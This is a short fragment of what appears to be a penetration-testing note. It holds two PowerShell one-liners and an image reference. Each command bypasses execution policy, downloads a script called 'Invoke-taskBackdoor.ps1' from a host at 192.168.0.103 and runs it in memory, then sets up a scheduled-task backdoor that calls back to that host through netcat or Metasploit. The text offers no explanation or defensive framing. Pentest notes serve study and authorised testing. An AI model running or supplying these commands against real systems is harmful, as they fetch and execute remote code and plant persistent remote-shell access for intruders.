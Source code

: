 	>powershell.exe -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.103/Invoke-taskBackdoor.ps1');Invoke-Tasksbackdoor -method nccat -ip 192.168.0.103 -port 9999 -time 2"
	>powershell.exe -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.103/Invoke-taskBackdoor.ps1');Invoke-Tasksbackdoor -method msf -ip 192.168.0.103 -port 8081 -time 2"
![image](/assets/Pentest_Note/master/img/535.png)